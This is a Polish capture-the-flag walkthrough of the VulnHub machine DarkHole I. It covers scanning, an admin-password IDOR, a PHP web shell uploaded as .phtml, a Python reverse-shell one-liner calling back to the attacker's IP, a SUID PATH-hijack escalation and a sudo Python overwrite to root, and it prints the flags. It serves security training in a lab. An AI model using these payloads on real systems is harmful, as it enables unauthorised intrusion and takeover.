

**CTF - Darkhole I**

`Autor: adi7312`

**Poziom trudności**: Łatwy/Średni

**Link do maszyny**: [Darkhole I](https://www.vulnhub.com/entry/darkhole-1,724/).

**Spis treści:**

- [**CTF-Darkhole**](#ctf-darkhole)
    - [**Specyfikacja układu**:](#specyfikacja-układu)
    - [**Skanowanie sieci**](#skanowanie-sieci)
    - [**Skanowanie portów**](#skanowanie-portów)
    - [**Identyfikacja podatności**](#identyfikacja-podatności)
    - [**PHP Shell**](#php-shell)
    - [**Eskalacja uprawnień - zdobycie flagi użytkownika**](#eskalacja-uprawnień---zdobycie-flagi-użytkownika)
    - [**Eskalacja uprawnień - zdobycie flagi roota**](#eskalacja-uprawnień---zdobycie-flagi-roota)

### **Specyfikacja układu**:
* Maszyna atakująca: Kali Linux
* Podatna na ataki maszyna: DarkHole
* Obie maszyny znajdują się w jeden sieci

### **Skanowanie sieci**
**Cel**: Zdobycie adresu IP maszyny DarkHole

Żeby poznać adres IP naszej sieci musimy na poczatku skorzystać z polecenia 

    ifconfig

Widzimy że nasza sieć ma maskę 255.255.255.0 (/24) zatem adresem naszej sieci jest 192.168.138.0/24. Wykorzystamy teraz tę informację aby znaleźć adres IP DarkHole przy pomocy narzędzia *netdiscover*. Wpisujemy zatem polecenie

    sudo netdiscover -r 192.168.138.0/24

Zdobyliśmy adres IP DarkHole jest to **192.168.138.137**

### **Skanowanie portów**
**Cel:** Dowiedzieć się na jakich portach działa host **DarkHole**, dokonać wykrycia usług tych hostów oraz zidentyfikować system operacyjny.

Rozpoczynamy skanowania portów DarkHole'a w tym celu korzystamy z narzędzia *nmap* z przełącznikami:
* **-sV** - w celu identyfikacji wersji usług hosta
* **-O** - w celu identyfikacji systemu operacyjnego

  
Wpisujemy polcenie:

    sudo nmap  192.168.138.137 -sV -O

Widzimy że 2 porty są otwarte: *ssh* na porcie 22 oraz *http* na porcie 80. 

### **Identyfikacja podatności**

**Cel**: Identyfikacja podatności

Nastepnie robimy skanowanie podatności, korzystamy z narzędzia *OpenVas*. OpenVas wykrył podatność związaną z portem 80 (*http*), tą podatnością będziemy się więc zajmować. Już sam *OpenVas* mówi nam że ta podatność jest związana z tym że hasła które podajemy są nieodpowiednio zabezpieczone i mogą być widoczne dla strony trzeciej.

Przeanalizujemy teraz zawartość strony. Używamy narzędzia *Burp Suite*. Po wejściu na adres 192.168.138.137 widzimy że mamy możliwość zalogowania się. Po wejściu w sekcję logowania odkrywamy również możliwość rejestracji, więc rejestrujemy się i obserwujemy wyniki w *Burp Suite*. Dla przykładu jako login dałem *test* i hasło również *test*. Na poniższym screenie wydać że Burp przechwycił nasz input.

Po zalogowaniu możemy zauważyć że istnieje możliwość zmiany hasła, przebadajmy więc i tę funkcję, zmieniamy hasło na *xyz*. W Burpie znów otrzymujemy HTTP request z jawnym inputem, tym razem widzimy dodatkowy parametr *id* = 2, możemy domyślać się że *id* = 1 posiada administrator. Ponownie wykonujemy tę operację tym razem w zakładce *Intercept* aby móc zmodyfikować HTTP request. Zmieniamy tam *id* z 2 na 1, dzięki temu zmodyfikujemy hasło administratora. 

Możemy teraz wylogować się z konta testowego, i zalogować się na koncie administratora. Jako login wpisujemy *admin* jako hasło *xyz*. Logowanie zakończyło się powodzeniem, widzimy że administrator ma dodatkową opcję "*upload*".

Zatem będziemy teraz zajmować się utworzeniem ładunku (*payload*) który umożliwi nam utworzenie tzw. *reverse shell*.
### **PHP Shell** 
**Cel**: RCE

Kod odpowiadający za utworzenie *reverse shell'a* wygląda następująco:

    <?php system($_GET['cmd']);?>
Zapisujemy to jako *rev.php*, spróbujmy wrzucić nasz kod. Operacja kończy się niepowodzeniem gdyż DarkHole nie przepuszcza plików .php, zmieńmy zatem w Burpie .php na .phtml.

Sprawdzamy teraz czy nasz *shell* działa.

Jak widać komenda *whoami* zadziałała poprawnie. Zatem zdalne wykonanie kodu (RCE - Remote Code Execution) jest teraz możliwe. Teraz będziemy chcieli uzyskać *shella* w naszym terminialu, w tym celu skorzystamy również z *reverse shell* ale tym razem użyjemy do tego Pythona. Na początku uruchamiamy terminal i wpisujemy w nim polecenie:

    sudo nc -lvp 80

Następnie wykonujemy RCE z poziomu naszej przeglądarki, jako argument *cmd* wpisujemy:

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.138.132",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

W terminalu gdzie wpisaliśmy komendę *sudo nc ...* wywołała nam się powłoka shell naszego DarkHole.

Ta powłoka ma dosyć ograniczone możliwości, próbujemy wywołać /bin/bash przy pomocy modułu *pty*.

    python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

Po sprwadzeniu katalogu /home widzimy że mamy dwóch użytkowników *john* oraz *darkhole*. Sprawdzamy katalog *john* komendą `ls -la` możemy zauważyć że `toto` posiada bit SUID. Po wpisaniu polecenia `./toto` możemy zauważyć że to polecenie zachowuje się jak `id`. Wykorzystamy tę informację w celu eskalacji uprawnień. Oprócz tego widzimy już plik gdzie prawdopodobnie znajduje się flaga użytkownika, jednak nie mamy do niej dostępu bo nie mamy uprawnień `johna`.

### **Eskalacja uprawnień - zdobycie flagi użytkownika**

**Cel**: Eskalacja uprawnień oraz zdobycie pierwszej flagi 

Przechodzimy do folderu `/tmp` i tworzymy plik `id` jego zawartością będzie `/bin/bash`. Ustawiamy `id` jako plik wykonywalny, robimy to poleceniem:

    chmod +x id

Upewniamy się że zmiany zaszły dzięki poleceniu:

    which id

Ponownie uruchamiamy `./toto` wykonane zmiany powinny pozwolić eskalować uprawnienia.

Jak widzimy eskalacja udała się i uzyskaliśmy flagę, pozostało jedynie zdobyć flagę `roota`.

**`Pierwsza Flaga: DarkHole{You_Can_DO_It}`**

### **Eskalacja uprawnień - zdobycie flagi roota**

**Cel**: Eskalacja uprawnień do roota oraz zdobycie ostatniej flagi.

Przejrzyjmy ponownie katalog `/home/john`, widzimy że mamy tutaj plik *password* który zawiera hasło użytkownika *john*.

Dzięki temu możemy sprwadzić jakie polecenia `sudo` może wykonać John. Wpisujemy polecenie:

    sudo -l

Dowiadujemy się ciekawej rzeczy pewny skrypt Pythona może być uruchomiony jako *root*.

Postarajmy się zatem zdobyć tego *roota* zmieniając plik *file.py*. Wpisujemy polecenie:

    echo ‘import os;os.system(“/bin/bash”)’ > file.py
    sudo /usr/bin/python3 /home/john/file.py
    id
Jak widać otrzymaliśmy uprawnienia *roota*.

Przechodzimy zatem do folderu `/root`. Używamy `ls` otwieramy plik *root.txt*, poleceniem 

    cat root.txt

Otrzymujemy ostateczną flagę.

**`Ostatnia Flaga: DarkHole{You_Are_Legend}`**

